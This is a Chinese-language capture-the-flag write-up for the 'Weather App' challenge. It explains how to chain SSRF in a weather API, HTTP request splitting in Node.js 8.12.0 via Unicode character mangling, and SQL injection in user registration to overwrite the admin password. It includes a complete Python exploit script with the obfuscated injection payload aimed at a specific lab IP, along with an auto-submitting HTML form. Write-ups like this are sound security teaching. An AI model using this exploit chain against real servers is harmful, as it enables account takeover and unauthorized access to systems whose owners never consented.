

## 题目

> A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️


## 思路

首先看代码，代码给我们的线索有：

1. Flag在`/app/flag`，需要以admin账户登录系统才能获得；


2. admin账号的密码是16进制32Byte大小的随机字符串，暴力破解不用考虑了；



3. 注册账户功能存在SQL注入漏洞；


4. 注册账户功能限制源IP，仅限本地（127.0.0.1）使用；


5. API`/api/weather`存在SSRF漏洞；


至此，思路基本清晰，即：**利用SSRF漏洞，让服务器提交注册用户请求，覆盖掉admin账号的密码，从而取得Flag。**

唯一一个尚未解决的问题是，`/api/weather`接口只能提交GET请求，而注册用户是强制读取`Request Body`中的数据的。

那么，我们还需要寻找其他线索。

`package.json`中显示，NodeJS版本为8.12.0


当前版本的NodeJS存在HTTP Request拆分漏洞，详见：[Node.js disclosed on HackerOne: Http request splitting](https://hackerone.com/reports/409943)

利用此漏洞，我们可以顺利通过服务器提交POST表单了。

完整思路：

1. 利用SSRF伪造服务器请求；
2. 利用NodeJS组件漏洞提交POST表单；
3. 利用注册功能的SQL注入漏洞覆盖掉admin账户的密码；
4. 登录admin账户，获得Flag。

## 解题

利用Python构造并提交POC：

``` python
# poc.py

import requests


payload = '''127.0.0.1/ HTTP/1.1
Host: http://127.0.0.1

POST /register HTTP/1.1
Host: http://127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close

username=admin&password=1234') ON CONFLICT(username) DO UPDATE SET password = 'admin';--

GET / HTTP/1.1
Host: http://127.0.0.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d')

print(payload)

burp0_url = "http://167.172.61.89:32702/api/weather"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://167.172.61.89:32702/", "Content-Type": "application/json", "Origin": "http://167.172.61.89:32702", "DNT": "1", "Connection": "close", "sec-ch-ua-platform": "\"Windows\"", "sec-ch-ua": "\"Google Chrome\";v=\"113\", \"Chromium\";v=\"113\", \"Not=A?Brand\";v=\"24\"", "sec-ch-ua-mobile": "?0"}
burp0_json={"city": "Tokyo", "country": "JP", "endpoint": payload}
resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)

print(resp.text)
```

登录admin，获得flag：


## 后记

最早解题的时候是没有注意到NodeJS的版本的，一直卡在无法提交POST表单这一步，最后还是看了其他大佬的WriteUP。想了一些很抽象的办法，例如在服务器上设置一个HTML文件，访问到这个文件的时候自动提交Form表单。这个思路能成功的前提是，服务器会解析HTML和JavaScript。抱着试一试的心态尝试了一番，最后理所当然的失败了。这里将用到的HTML代码记录下来，权当消遣与纪念(代码是ChatGPT写的)。

``` HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>自动提交表单</title>
    <script type="text/javascript">
        window.onload = function() {
            document.forms["autoSubmitForm"].submit();
        }
    </script>
</head>
<body>
    <form id="autoSubmitForm" action="http://127.0.0.1/register" method="post">
        <input type="hidden" name="username" value="admin">
        <input type="hidden" name="password" value="admin">
    </form>
</body>
</html>
```

> PS: 今天七夕，在护网现场爆肝三篇WriteUP，感谢女朋友的鼓舞BUFF加持！

## 参考资料

- [NodeJS 中 Unicode 字符损坏导致的 HTTP 拆分攻击](https://www.anquanke.com/post/id/241429)
- [HTB之Weather App](https://blog.csdn.net/f_cccc/article/details/1164068)